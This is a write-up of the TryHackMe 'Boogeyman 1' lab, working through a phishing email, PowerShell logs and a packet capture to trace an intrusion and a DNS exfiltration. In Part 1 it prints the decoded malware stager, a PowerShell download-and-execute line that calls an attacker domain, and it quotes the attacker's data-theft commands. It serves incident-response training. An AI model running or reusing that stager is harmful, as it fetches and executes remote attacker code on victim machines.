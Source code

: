 https://tryhackme.com/r/room/boogeyman1

---
#### Part 1 - Email Analysis - Look at that headers!
I used Phishtool to get information about the .eml

**Q1-2**
On phishtool

**Q3**
On phishtool in `Source`, keyword `DKIM`

**Q4**
I had to rebuild the invoice.zip
I use `cat dump.eml` to see the base64 encoded attachment at the bottom.
![[Screenshot_2024-07-19_22-36-23.png]]

I put the base64 string in a file `payload` and I decoded it
```shell
cat payload | base64 -d > invoice.zip
```

I used the password from Q5 to unzip to extract `Invoice_20230103.lnk`
```shell
unzip invoice.zip
```

**Q5**
The `Invoice2023!` password is in the message of the email

**Q6**
I used `strings Invoice_20230103.lnk` to expose another base64 encoded string in
```text
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQ  
BiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAG  
EAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```
Which gave me the following command
```text
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

#### Part 2 - Endpoint Security - Are you sure that’s an invoice?
**Q1**
```shell
cat powershell.json | jq '{ScriptBlockText}' | grep bpak
```
This shows up `cdn` and `files` subdomains

**Q2-4**
```shell
cat powershell.json | jq '{ScriptBlockText}' | grep ".exe"
```
This shows up 3 responses

**Q5**
```Shell
cat powershell.json | jq '{ScriptBlockText}' | sort | uniq
```
I give all the information needed for all the part 2, found it late

**Q6**
`.kdbx` is used by `keepass`

**Q7**
Bruteforce heheheheheheheheh

**Q8**
Command from Q5
#### Part 3 - Network Traffic Analysis - They got us. Call the bank immediately!

**C2 IP**
```text
159.89.205.40
```

**Exfiltration IP**
```text
167.71.211.113
```

**Q1**
```Wireshark
frame contains "files.bpakcaging.xyz"
```
Follow the TCP stream of the one with `/sq3.exe` and check the header

**Q2**
```Wireshark
http.request.method == "POST"
```

**Q3**
```Wireshark
ip.dst == 167.71.211.113
```
This clearly shows a DNS exfiltration

**Q4**
```Wireshark
frame contains "sq3.exe"
```
The frame is the `44459` with the payload
```text
.\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100";pwd
```
I followed the HTTP stream which was the `751`th and I switched to the next (`752`) where I got a decimal encoded payload with the `%p9^3!lL^Mz47E2GaT^y` password in

**Q5**
```shell
tshark -r capture.pcapng -Y 'dns && ip.dst == 167.71.211.113 && _ws.col.info contains "0x0004"' | cut -d ' ' -f 12 | cut -d '.' -f 1 > file
```
Because the exfiltration is by DNS, I just isolated the payload into one big hex string to decode and rebuild the `protected_data.kdbx` 
Then I installed Keepass `sudo apt install keepassx` and used the password from Q4 to open it and the card number was in it. gg

The hardest I've done so far

